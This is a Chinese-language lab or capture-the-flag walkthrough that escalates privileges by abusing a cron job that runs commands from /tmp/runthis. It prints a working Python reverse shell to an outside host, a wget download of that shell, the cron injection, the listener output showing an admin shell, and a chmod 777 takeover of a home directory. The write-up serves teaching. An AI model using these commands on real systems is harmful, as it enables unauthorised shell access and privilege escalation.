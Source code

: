 ```
我让你可以做一些自动检查，但我只允许您访问/usr/bin/*系统二进制文件。
然而，我确实复制了一些额外的经常需要的命令到我的homedir:chmod、df、cat、echo、ps、grep、egrep，这样您就可以使用它们了
来自/home/admin/
不要忘记为每个二进制文件指定完整路径！
只需在/tmp/中放入一个名为“runthis”的文件，每行一个命令。这个输出转到/tmp/中的文件“cronresult”。它应该以我的帐户权限每分钟运行一次。
```

根据提示我们可以看出，在/tmp/中放入一个名为“runthis”的文件，而这个文件就类似/etc/crontab文件，在这里是以admin用户**定时执行任务**，所以我们的思路是可以利用这个漏洞拿到admin用户的shell

## 步骤

### 提权到本地用户

3、编写反弹 shell 脚本，到 `/tmp/privilege.py`

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.0.103",6688));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

靶机下载

```bahs
bash-4.1$ wget http://192.168.0.103/privilege.py
```

4、向runthis中写入执行命令

方法一：写入反弹shell文件，即可拿到 admin 的 shell

```bash
echo '/usr/bin/python /tmp/privilege.py' > runthis
```

```bash
└─# nc -lvvp 6688                                                                                                                                         
listening on [any] 6688 ...
connect to [192.168.0.103] from 192.168.0.104 [192.168.0.104] 55277
sh: no job control in this shell
sh-4.1$ whoami
whoami
admin
```

方法二：将用户admin的家目录权限设置为所有用户均可访问

```bash
echo '/usr/bin/../../bin/chmod -R 777 /home/admin' > runthis
```
